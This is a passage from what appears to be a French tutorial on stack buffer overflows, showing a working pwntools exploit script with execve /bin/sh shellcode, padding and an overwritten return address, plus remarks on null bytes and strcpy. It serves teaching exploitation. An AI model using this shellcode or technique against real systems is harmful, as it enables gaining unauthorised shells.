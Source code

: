 Une fois arrêté, notre input se trouve donc dans la stack, à l'adresse : 0x7fffffffe570

Et notre shellcode se trouvera un peu après l'input, à cause du padding.

Code python de l'exploit :

```python
#!/usr/bin/env python2

from pwn import *

def save(what, where):
  with open(where, "wb") as f:
    f.write(what)

shellcode = "\x48\xB8\x2F\x2F\x62\x69\x6E\x2F\x73\x68"
shellcode += "\x48\xC1\xE8\x08\x50\x48\x89\xE7\x48\x31"
shellcode += "\xC0\xB0\x3B\x48\x31\xF6\x48\x31\xD2\x0F\x05"

offset = 40
count_A = offset - len(shellcode)
padding = "A" * count_A
addr_input = 0x7fffffffe570 # Dépend de votre OS
addr_shellcode = addr_input + count_A
log.info("Shellcode at 0x{:8x}".format(addr_shellcode))

payload = padding + shellcode + p64(addr_shellcode)

save(payload, "payload")
log.success("Payload written")
```

Pour lancer l'exploit, il n'y a plus qu'à donner son output au programme en tant qu'argument :

<img class="img_full" src="/hacking/pwn_1of4_buffer_overflow/run_exploit.png" alt="run_exploit" >

Et BIM ! Spawned a shell ! `\o/`

<img class="img_small" src="/hacking/pwn_1of4_buffer_overflow/like_a_boss.png" alt="like_a_boss" >

## Remarques et Réflexion :

 * Remarque 1

Dans cet exemple, une erreur s'est dissimulée, sauras tu la retrouver ?

 *-[ SPOIL ]-*

Ce shellcode contient des null-bytes (`\x00`, sentinelle qui en C, désigne une fin de chaine de caractère) qui sont très mal gérés par bash. Si l'argument avait été passé directement, bash l'aurait coupé. Passer par un fichier permet de tout envoyer au programme, même les null-bytes. Mais ceci ne règle pas le problème en totalité. En effet, la fonction vulnérable ici est strcpy. Elle copie un string et s'arrête à la première sentinelle (aka null-byte, aka 0x00, aka ShellCodeBreakerOfDoom). Notre exploit fonctionne quand même car ils apparaissent à la fin de notre payload en tant qu'adresse. Et nous collons cette adresse de stack sur... Une adresse de stack, donc les 0x00 dont déjà présents.
